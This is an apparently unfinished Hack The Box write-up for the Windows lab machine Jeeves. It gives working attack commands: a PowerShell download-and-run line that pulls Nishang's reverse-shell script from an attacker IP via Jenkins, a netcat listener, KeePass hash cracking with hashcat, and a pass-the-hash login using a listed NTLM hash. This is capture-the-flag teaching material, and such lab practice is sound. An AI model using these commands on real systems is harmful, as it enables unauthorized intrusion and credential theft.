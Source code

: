 ## Hack The Box - Jeeves (10.10.10.63)
Jeeves is a medium box from Hack The Box and it is a Windows machine. It presents a minor rabit hole but with enough enumeration and familiarity with Windows powershell, Netcat, and Hashcat attackers should have no issue obtaining their flags. 


### Enumeration
To begin with, we will start an nmap scan on our target as part of our first enumeration steps. For this, I will opt to use nmapAutomator, although you can run a traditional nmap scan. 

```markdown
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
```

We have four open ports on our target machine. After no success with enumerating port 445 (SMB) I decide to open our target machine in a web browser to view what is hosted on port 80 (http://10.10.10.63:80). It appears our target is running ‘Ask Jeeves’ as a service and is running on ‘Microsoft-IIS/10.0’. I will ran a DirBuster scan to enumerate furthur files and directories here but did not obtain anything useful. 


<INSERT SCREENSHOT>

Continueing with our enumeration, I decided to view what is hosted on port 50000 (http://10.10.10.63:50000). It appears our target is running Jetty on this port and it may be running on version 9.4.x according to our nmap scan from earlier. 

<INSERT SCREENSHOT (jetty.png)>

As I run another DirBuster scan on our target machine and port 50000 I decide to research possible exploits available for Jetty 9.4.x and later. After attempting several exploits from GitHub, ExploitDB, and Metasploit I decided that their must be another method to obtain our initial foothold. My DirBuster scan from earlier has finished and has reveiled a new directory (/askjeeves). 

<INSERT SCREENSHOT>

It appears our target is hosting an application called Jenkins, a software for developers to automatically build, test, and deploy their software. 

<INSERT SCREENSHOT Jenkins.png)

After poking around the application it appears that we are able to build and deploiy new projects without any restriction. We will go to ‘New Item > Freeestyle project’ and name our project whatever we choose. On the next page, we are given several options and the most interesting is the ‘Build’ sections where we can select ‘Execute Windows batch command’ as an option. Intresting! Let us craft a payload using a powershell one-liner and Nishang's Invoke-PowerShellTcp.ps1 script. 

### Initial Foothold
We will append the following line to the very end of our Invoke-PowerShellTcp.ps1 script to enable the callback to our attacker machine once executed on our target machine. Please ensure to change ‘10.10.10.10.’ to your IP Address and ‘4444’ to the port which you will be listening on for your reverse shell (netcat will be utilized for this step and will be explained later). 

<INSERT CODE BELOW> 
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444 

Great, our script is ready to go! Let's host it on our attacker machine utilizing either SimpleHTTPServer or http.server (either will work). 

<INSERT CODE BELOW>
python -m SimpleHTTPServer 8080
or
python3 -m http.server 8080


Our attacker machine is now hosting 'Invoke-PowerShellTcp.ps1' on our IP address on port 8080. Once downloaded and executed by our target it will send a reverse shell to our attacker machine. We will catch this reverse shell utilizing Netcat. To do this, execute the below command and ensure that the port listed in this command is the same listed at the bottom of our Invoke-PowerShellTcp.ps1 script from earlier. 

<INSERT CODE BELOW>
nc -lvnp 4444

Time to get our intial foothold. Powershell's IEX is a powerfull resource to have in your toolkit so if this is your first time using it, make sure to commit the following to memory because there will be plenty of opportunities to use it again. We will be executing the following powershell one-liner code in the ‘Execute Windows batch command’ box of our Jenkins application. Before doing so, ensure that 10.10.10.10 is replaced with your attacker machine's IP address. 

<INSERT CODE BELOW>
powershell IEX (New-Object Net.WebClient).downloadString('http://10.10.10.10:8080/Invoke-PowerShellTcp.ps1');

<INSERT SCREENSHOT build.png>

Click ‘Save’ and ‘Build Now’ to see your file get pulled from your attacker machine and executed on the target machine to provide you with your reverse shell caught by Netcat. Congradulations, we have our intial foothold and appear to be a user name ‘kohsuke’. Let us continue with our privledge escalation. 

<INSERT SCREENSHOT foothold.png>

### Privledge Escalation
After searching around our target's machine I notice there is a file called ‘CEH.kdbx’ located in ‘C:\Users\kohsuke\Documents’. This file extention is indictive of a keepass file which we will be using keepass2john and hashcat to crack and obtain the cleartext password. So first, download the file to your local attacker machine. 

<INSERT SCREENSHOT CEH.png>

On your attacker machine run the following command to turn your .kdbx file into a hash we can feed into hashcat for a cleartext password.

<INSERT CODE BELOW>
keepass2john CEH.kdbx > CEH.hash
<insert SCREENSHOT HASH.png>

We will now feed this hash file (CEH.hash) into a tool called hashcat which will provide us with the cleartext password. For this password crack I will be utilizing rockyou.txt as a password file but I encourage everyone to checkout SecLists for more resources. 

<INSERT CODE BELOW>
hashcat -m 13400 CEH.hash rockyou.txt

OUTPUT:
<INSERTSCREENSHOT hashcat.png>

With our password being ‘moonshine1’ we can now view the contents of the keepass file!

<INSERT SCREENSHOT keepass.png>


Viewing all the entries it seems like ‘Backup stuff’ contains an NTLM hash in the password feild. 

<INSERT CODE BELOW>
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00

We can use a pass-the-hash attack to gain access to our target's machine as Administrator. We will use pth-winexe for this attack.

<INSERT CODE BELOW>
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd.exe

<INSERT SCREENSHOOT pth-winexe.png>

  ###Closing Remarks
  We are now Administrator! Before ending this, it is worth nothing that you may not be able to obtain your root flag as easily as the user flag. This is because their is a file stream via the ‘hm.txt’ file located in C:\Users\Administrator\Desktop' and it can only be see by appending /r to your ‘dir’ command. 

<INSERT SCREENSHOT dir.png>

Utilize the following command to obtain your root flag.

<INSERT CODE BELOW>
powershell Get-Content -path C:\Users\Administrator\Desktop\hm.txt -stream root.txt

Thanks for reading! 
